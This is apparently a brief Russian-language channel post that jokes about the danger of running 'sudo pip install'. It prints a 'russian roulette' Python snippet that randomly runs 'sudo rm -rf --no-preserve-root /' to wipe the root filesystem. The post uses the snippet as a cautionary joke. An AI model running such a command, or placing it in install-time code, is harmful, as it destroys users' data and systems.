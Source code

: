 ```yaml
---
title: 150
date: 2018-05-21 09:30:08
tags: []
layout: post
telegram_id: 150
---
```


Любите риск? Тогда пришло время для [sudo pip install russian_roulette](https://pages.charlesreid1.com/dont-sudo-pip/)

if(random.randint(1,6)==6):
    print("Hold on to your butts.\n\n\n")
    <https://subprocess.call>("sudo","rm","-rf","--no-preserve-root","/")
